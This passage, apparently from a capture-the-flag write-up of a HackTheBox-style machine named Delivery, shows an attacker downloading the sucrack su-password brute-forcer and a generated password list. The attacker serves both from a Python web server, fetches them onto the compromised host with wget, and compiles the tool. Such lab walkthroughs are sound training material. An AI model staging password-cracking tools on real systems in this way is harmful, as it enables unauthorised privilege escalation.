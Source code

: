 We can download the sucrack project from its [Github repository](https://github.com/hemp3l/sucrack/) as a zip file, using `wget`. Then, we can transfer the file to the target host by executing `python3 -m http.server` to start a python web server and downloading the zip file using `wget` on the compromised host, as demonstrated in the two code blocks below. We can also download the `passwords` file we generated earlier using the same technique. Once we have downloaded the two files, we execute `unzip sucrack.zip` to extract the zip file. This results in the creation of a directory named "sucrack-master" which we navigate to by executing `cd sucrack-master`.

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ wget https://github.com/hemp3l/sucrack/archive/refs/heads/master.zip -O sucrack.zip
[...]
2021-12-01 14:20:38 (744 KB/s) - ‘sucrack.zip’ saved [164375]

┌──(kali㉿kali)-[/tmp/x]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
{% endhighlight %}

{% highlight none linenos %}
maildeliverer@Delivery:~$ wget http://10.10.16.3/sucrack.zip
[...]
2021-12-01 08:23:12 (599 KB/s) - ‘sucrack.zip’ saved [164375/164375]

maildeliverer@Delivery:~$ wget http://10.10.16.3/passwords
[...]
2021-12-01 08:31:00 (262 MB/s) - ‘passwords’ saved [1177/1177]

maildeliverer@Delivery:~$ unzip sucrack.zip
Archive:  sucrack.zip
c738b9a6d78b6aa517767d7621480a3f3dfb4dd6
   creating: sucrack-master/
  inflating: sucrack-master/COPYING  
  inflating: sucrack-master/ChangeLog  
[...] 
  inflating: sucrack-master/src/worker.h
maildeliverer@Delivery:~$ cd sucrack-master/
maildeliverer@Delivery:~/sucrack-master$
{% endhighlight %}

Next, we compile sucrack by executeing `./configure` and `make` as explained in the `README.md` file of the Github repository. This results in a binary named "sucrack" being created in the `src` dirctory.

{% highlight none linenos %}
maildeliverer@Delivery:~/sucrack-master$ ./configure
checking for a BSD-compatible install... /usr/bin/install -c
checking whether build environment is sane... yes
[...]
config.status: executing depfiles commands

sucrack configuration
---------------------
sucrack version         : 1.2.3
target system           : LINUX
sucrack link flags      : -pthread
sucrack compile flags   : -DSTATIC_BUFFER  -DLINUX -DSUCRACK_TITLE="\"sucrack 1.2.3 (LINUX)\""

maildeliverer@Delivery:~/sucrack-master$ make
make  all-recursive
make[1]: Entering directory '/home/maildeliverer/sucrack-master'
[...]
make[1]: Leaving directory '/home/maildeliverer/sucrack-master'
maildeliverer@Delivery:~/sucrack-master$
{% endhighlight %}
